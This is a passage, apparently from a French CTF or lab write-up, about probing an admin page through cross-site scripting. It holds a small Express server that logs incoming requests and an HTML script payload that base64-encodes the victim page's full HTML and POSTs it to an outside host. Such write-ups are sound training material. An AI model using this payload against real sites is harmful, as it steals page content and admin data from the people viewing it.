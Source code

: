 ### Exploration de la partie admin

Je peux maintenant explorer la partie "admin", pour cela il faut adapter le code coté serveur. Par habitude, je développe ce code en nodejs.

```javascript
const express = require("express");
const app = express();
const PORT = 80;

app.use(express.json());

app.get("/", (req, res) => {
  console.log("get /");
  res.end("ok");
});

app.get("/:anything", (req, res) => {
  console.log(req.params.anything);
  res.end("ok");
});

app.post("/:anything", (req, res) => {
  console.log(req.params.anything);
  console.log(req.body);
  res.status(200).json({ message: "Données reçues 👍" });
});

app.listen(PORT, "0.0.0.0", () => {
  console.log(`🚀 Serveur démarré sur http://localhost:${PORT}`);
});
```

Le payload est aussi à adapter. Je commence par récupérer l'ensemble de la page HTML accessible, le plus simple est de l'encoder en base64 puis de le poster vers le serveur distant.

```html
<script>
  const destinationUrl = "https://vps.shoxxdj.fr";
  function notify(path, data) {
    return fetch(destinationUrl + path, {
      method: "POST",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify(data),
    });
  }

  (async () => {
    try {
      await notify("/part-two", {
        status: "ok",
        page: btoa(document.documentElement.outerHTML),
      });
    } catch (err) {
      await notify("/error", {
        status: "not ok",
        val: err.message || String(err),
      });
    }
  })();
</script>
```
